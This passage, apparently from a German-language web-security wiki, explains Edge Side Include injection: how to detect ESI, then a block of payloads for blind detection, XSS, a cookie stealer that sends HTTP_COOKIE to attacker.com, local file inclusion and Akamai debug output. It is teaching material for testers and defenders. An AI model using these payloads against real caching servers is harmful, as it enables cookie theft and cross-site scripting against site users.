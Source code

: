 ```javascript
<!--#set var="name" value="Rich" -->

```
## Edge Side Inclusion

Es gibt ein Problem mit **Caching-Informationen oder dynamischen Anwendungen**, da ein Teil des Inhalts für das nächste Abrufen des Inhalts **variieren** kann. Dafür wird **ESI** verwendet, um mit ESI-Tags den **dynamischen Inhalt anzugeben, der generiert werden muss**, bevor die Cache-Version gesendet wird.\
Wenn ein **Angreifer** in der Lage ist, **ein ESI-Tag** in den Cache-Inhalt einzufügen, könnte er in der Lage sein, **willkürlichen Inhalt** in das Dokument einzufügen, bevor es an die Benutzer gesendet wird.

### ESI Detection

Die folgende **Header** in einer Antwort vom Server bedeutet, dass der Server ESI verwendet:
```
Surrogate-Control: content="ESI/1.0"
```
Wenn Sie diesen Header nicht finden können, **könnte der Server trotzdem ESI verwenden**.\
Ein **blinder Exploitationsansatz kann ebenfalls verwendet werden**, da eine Anfrage beim Server des Angreifers ankommen sollte:
```javascript
// Basic detection
hell<!--esi-->o
// If previous is reflected as "hello", it's vulnerable

// Blind detection
<esi:include src=http://attacker.com>

// XSS Exploitation Example
<esi:include src=http://attacker.com/XSSPAYLOAD.html>

// Cookie Stealer (bypass httpOnly flag)
<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```
### ESI-Ausnutzung

[GoSecure hat erstellt](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) eine Tabelle, um mögliche Angriffe zu verstehen, die wir gegen verschiedene ESI-fähige Software ausprobieren können, abhängig von der unterstützten Funktionalität:

- **Includes**: Unterstützt die `<esi:includes>`-Direktive
- **Vars**: Unterstützt die `<esi:vars>`-Direktive. Nützlich zum Umgehen von XSS-Filtern
- **Cookie**: Dokument-Cookies sind für die ESI-Engine zugänglich
- **Upstream-Header erforderlich**: Surrogatanwendungen verarbeiten ESI-Anweisungen nicht, es sei denn, die upstream-Anwendung stellt die Header bereit
- **Host-Whitelist**: In diesem Fall sind ESI-Includes nur von erlaubten Server-Hosts möglich, was SSRF beispielsweise nur gegen diese Hosts möglich macht
